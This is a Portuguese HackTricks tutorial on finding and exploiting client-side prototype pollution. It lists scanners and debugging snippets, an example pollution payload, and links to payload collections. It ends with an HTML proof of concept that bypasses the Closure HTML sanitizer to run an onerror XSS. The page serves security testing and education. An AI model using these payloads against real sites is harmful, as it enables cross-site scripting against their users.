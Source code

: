 # Poluição de Protótipo no Lado do Cliente

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Descobrindo usando Ferramentas Automáticas

As ferramentas [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **e** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) podem ser usadas para **encontrar vulnerabilidades de poluição de protótipo**.

Além disso, você também pode usar a **extensão para navegador** [**PPScan**](https://github.com/msrkp/PPScan) para **escanear automaticamente** as **páginas** que você **acessa** em busca de vulnerabilidades de poluição de protótipo.

### Depurando onde uma propriedade é usada <a href="#5530" id="5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Encontrando a causa raiz da Prototype Pollution <a href="#5530" id="5530"></a>

Uma vez que qualquer uma das ferramentas tenha **identificado** uma **vulnerabilidade de prototype pollution**, se o **código** **não** for muito **complexo**, você pode **procurar** no código JS pelas **palavras-chave** **`location.hash/decodeURIComponent/location.search`** nas Ferramentas do Desenvolvedor do Chrome e encontrar o local vulnerável.

Se o código for grande e complexo, há uma maneira fácil de **descobrir onde está o código vulnerável**:

* Usando uma das ferramentas, **encontre uma vulnerabilidade** e obtenha um **payload** que irá **definir uma propriedade** no construtor. No ppmap, algo como isto será fornecido: `constructor[prototype][ppmap]=reserved`
* Agora, defina um **ponto de interrupção na primeira linha do código JS** que será executado na página e atualize a página com o payload para que a **execução seja pausada ali**.
* Enquanto a execução do JS estiver pausada, **cole o seguinte script no console JS**. Este código indicará quando a propriedade 'ppmap' for criada, assim você poderá encontrar onde ela foi criada.
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if ( debugGet )
debugger;
return origValue;
},
set: function(val) {
debugger;
return origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
Volte para **Sources** e clique em “**Resume** script **execution**”. Depois de fazer isso, todo o **javascript** será **executed** e o ppmap será poluído novamente como esperado. Com a ajuda do Snippet, podemos encontrar exatamente onde a propriedade ppmap é poluída. Podemos **click** na **Call** **Stack** e você verá **different** **stacks** onde a **pollution** **happened**.

Mas qual escolher? Na maioria das vezes, a Prototype Pollution ocorre em bibliotecas Javascript, então mire na stack que está anexada aos arquivos de biblioteca .js (olhe para o lado direito, como na imagem, para saber a qual endpoint a stack está anexada). Neste caso, temos 2 stacks nas linhas 4 e 6, logicamente escolheremos a linha 4 porque essa linha é a primeira vez onde a Pollution ocorre, o que significa que esta linha é a razão da vulnerabilidade. Clicar na stack nos redirecionará para o código vulnerável.

![](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Encontrando Script Gadgets

O gadget é o **code that will be abused once a PP vulnerability is discovered**.

Se a aplicação for simples, podemos **search** por **keywords** como **`srcdoc/innerHTML/iframe/createElement`** e revisar o código-fonte para verificar se **leads to javascript execution**. Às vezes, as técnicas mencionadas podem não encontrar gadgets de forma alguma. Nesse caso, a revisão pura do código-fonte revela alguns gadgets interessantes como no exemplo abaixo.

### Exemplo de Encontrando PP gadget no código da biblioteca Mithil

Confira este writeup: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilação de payloads para bibliotecas vulneráveis

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Bypass de HTML Sanitizers via PP

[**Esta pesquisa**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) mostra gadgets PP para usar para **bypass the sanizations** fornecidos por algumas bibliotecas de sanitizadores HTML:

* #### sanitize-html

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

* #### dompurify

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

* #### Closure
```html
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Referências

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

<details>

<summary><strong>Aprenda AWS hacking do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
